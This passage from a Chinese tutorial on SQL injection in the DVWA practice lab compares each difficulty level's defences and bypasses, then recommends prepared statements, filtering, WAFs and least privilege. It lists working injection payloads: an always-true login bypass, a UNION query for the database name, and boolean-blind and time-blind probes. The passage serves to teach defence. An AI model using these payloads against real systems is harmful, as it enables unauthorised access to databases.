2. ②处，白名单式的输入过滤，使用is_numeric()函数检查用户输入是否为数字，并使用intval()函数将其强制转化为整数，避免了用户输入的''等类型的字符串。*通过后续结合prepared statement的使用更为安全，Prepared Statement 是一种预编译的 SQL 语句，可以将 SQL 代码与用户输入的数据分开处理，从而有效防止 SQL 注入攻击。通过使用 Prepared Statement，SQL 语句中的参数会被自动转义和处理，确保用户输入的数据不会被解释为 SQL 代码的一部分，从而提高了应用程序的安全性。*
3. ③处，同⑤处，使用占位符(:id),也等价于?代替直接拼接，任何输入直接别拼接到SQL语句中，impossible级别使用占位符的形式，数据库优先检查查询语句，在将输入内容单独作为一个参数传递给数据库，不纳入代码范畴，从而实现代码与数据的隔离，彻底杜绝SQL注入漏洞。(是一种Prepared Statement的使用)
4. ④处，同⑥处，在前部分代码的"LIMIT 1"的限制基础上，为了进一步规避注释符的影响，都对数据输出结果进行了一条的限制，确保只返回一行数据，防止通过 UNION 等技巧一次性获取多行记录。
5. 最后，同high级别的防护，上述代码最后无论查询是否成功，都不会输出错误信息，减少了暴露更多的信息，隐藏了查询错误。

## 手动注入常见注入模板

1. 万能密码：**' or 1=1-- **或**" or 1=1-- **（根据后台引号类型选择）

2. 联合查询获取数据库：**' union select 1,database()-- **
3. 布尔盲注（判断是否存在）：**' and 1=1--（正常显示）、' and 1=2--（报错/不显示）**

4. 时间盲注（无报错时使用）：**' and sleep(5)--（若页面延迟5秒加载，说明存在注入）**

## 三、总结和防御方法

| 等级       | 核心防御机制                                                                 | 绕过方法                                                                                     | 关键启示                                                                                 |
| ---------- | ---------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------- |
| **Low**    | 无任何过滤，直接将用户输入拼接至SQL语句。                                     | 通过闭合引号或添加额外SQL语句，如 `' OR '1'='1`、`UNION`注入等。                               | 直接拼接用户输入是最根本的漏洞，必须使用参数化查询分离数据与代码。                         |
| **Medium** | 使用`mysqli_real_escape_string`转义特殊字符，但查询中`user_id = $id`未用引号包围（数字型注入）；SQLite分支无任何过滤。 | 利用数字型注入，如 `1 UNION SELECT ...`，无需闭合引号即可执行。                               | 转义函数仅适用于字符串上下文，无法防御数字型注入；不同数据库分支需统一安全处理。             |
| **High**   | 输入源自`$_SESSION['id']`（由用户输入控制），查询使用引号包围并添加`LIMIT 1`，错误信息被隐藏。 | 通过注释符（`--` 或 `#`）绕过`LIMIT 1`，并利用闭合引号注入。                                 | 会话存储并非安全屏障，只要存在拼接，注入就不可避免；隐藏错误信息只能增加攻击成本，无法根除漏洞。 |
| **Impossible** | CSRF令牌防止跨站请求；输入验证（`is_numeric` + `intval`）确保输入为整数；参数化查询（PDO预处理）彻底隔离数据与代码；输出限制（`LIMIT 1`）和错误隐藏。 | 无法绕过。任何注入payload均因类型检查失败而被拦截，参数化查询将用户数据作为纯参数处理，无法改变SQL结构。 | 参数化查询是防御SQL注入的黄金标准，结合严格输入验证和CSRF防护，构建纵深防御体系，从根本上杜绝漏洞。 |

四、SQL注入防御方案（企业级实战，重点掌握）
防御SQL注入的核心：阻止用户输入的数据被当作SQL语句执行，常用方案如下，按优先级排序：

1. 预编译语句（最有效，优先使用）/Prepared Statement
核心思想：将SQL语句的“结构”和“数据”分离，先定义SQL语句模板（固定结构），再将用户输入的数据作为“参数”传入，避免数据被当作SQL语句执行。

示例（Java代码）：
```java
// 错误写法（直接拼接，存在注入）
String sql = "select * from user where username='" + username + "' and password='" + password + "'";

// 正确写法（预编译，参数化查询）
String sql = "select * from user where username=? and password=?";
PreparedStatement pstmt = conn.prepareStatement(sql);
pstmt.setString(1, username); // 传入用户名参数
pstmt.setString(2, password); // 传入密码参数
ResultSet rs = pstmt.executeQuery();
```
说明：PHP、Python等其他语言也有对应的预编译方法（如PHP的PDO预编译、Python的pymysql参数化查询），本质一致。

2. 输入过滤与转义（辅助防御）
对用户输入的数据进行过滤，过滤掉SQL语句中的特殊字符（如 '、"、union、select、or、and 等），或对特殊字符进行转义（比如将 ' 转义为 \'）。

注意：过滤转义仅作为辅助，不能单独依赖（因为攻击者可能通过编码、绕过等方式避开过滤），必须结合预编译语句。

3. 使用WAF（Web应用防火墙，兜底防御）
WAF可以拦截常见的SQL注入Payload（如 ' or 1=1--），对未做预编译、过滤的系统进行兜底防御。

常用WAF：开源的ModSecurity、商业的阿里云WAF、腾讯云WAF等，企业级部署建议使用商业WAF，稳定性和防护效果更好。

4. 最小权限原则（降低危害）
后台数据库账号设置最小权限：比如Web程序连接数据库的账号，只授予“查询、插入、更新”等必要权限，不授予“删除、修改表结构、查询系统表”等高危权限。

即使发生SQL注入，攻击者也无法执行高危操作，降低漏洞带来的危害。


